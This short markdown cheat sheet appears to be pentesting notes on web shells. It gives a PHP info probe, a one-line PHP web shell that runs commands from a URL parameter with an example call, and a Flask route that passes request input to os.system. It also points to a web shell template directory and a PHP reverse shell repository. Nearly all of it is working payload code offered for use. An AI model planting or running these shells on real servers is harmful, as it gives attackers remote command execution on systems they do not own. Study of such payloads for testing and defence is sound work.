 # Routes

Check `/usr/share/webshells` to pull templates

### Languages

### PHP

Test if data can render:

```php
# Initial test, gather info
<?php phpinfo(); ?>

# RCE (exmaple execution: example.com/uploads/shell.php?cmd=whoami)
<?php system($_GET['cmd']); ?>
```

### Python

```python
@app.route('/rs')
def rce():
    return os.system(request.args.get('cmd'))
```

### Shells

XAMPP Shells: https://github.com/ivan-sincek/php-reverse-shell/tree/master
